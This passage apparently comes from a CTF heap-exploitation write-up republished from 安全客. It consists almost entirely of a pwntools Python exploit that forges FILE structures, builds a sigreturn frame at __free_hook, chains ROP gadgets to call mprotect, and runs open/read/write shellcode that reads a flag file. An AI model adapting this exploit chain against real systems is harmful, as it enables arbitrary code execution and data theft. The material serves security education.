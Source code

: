 ```python
    payload += p64(io_str_overflow_61)
    edit(5,payload)
    #trigger && rdx = QWORD PTR [rdi+0x28] = heap_base+0x29d0
    payload = p64(0)*2+p64(0)+p64(chunk8_addr)+p64(0) #write
    payload += p64(chunk1_addr+0x50)+p64(chunk1_addr+22+0x50)+p64(0)*4
    payload += p64(chunk6_addr)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
    payload += p64(io_str_overflow_61)
    edit(6,payload)
    # ss()
    free_hook = libc_base+libc.sym["__free_hook"]
    free_hook1 = free_hook&0xfffffffffffff000
    syscall = libc_base+0x0000000000066229
    #fakeframe
    frame = SigreturnFrame()
    frame.rdi = 0
    frame.rsi = free_hook1
    frame.rdx = 0x2000
    frame.rsp = free_hook1
    frame.rip = syscall
    edit(8,str(frame))

    poprdi = 0x0000000000026b72+libc_base
    poprsi = libc_base+0x0000000000027529
    pop2rdx = libc_base+0x000000000011c1e1
    poprax = libc_base+0x000000000004a550

    #mprotect(free_hook1,0x2000,7) && orw shellcode
    payload = [poprdi,free_hook1,poprsi,0x2000,pop2rdx,0x7,0]
    payload += [poprax,10,syscall,free_hook1+0x58]

    sc = shellcraft.open("flag",0)
    sc += shellcraft.read("rax",free_hook1+0x300,0x40)
    sc += shellcraft.write(1,free_hook1+0x300,0x40)
    cmd(5)

    p.send(flat(payload)+asm(sc))
    p.interactive()
if __name__ == "__main__":
    exp()
```



* 声明：本文经安全客授权发布，转载请联系安全客平台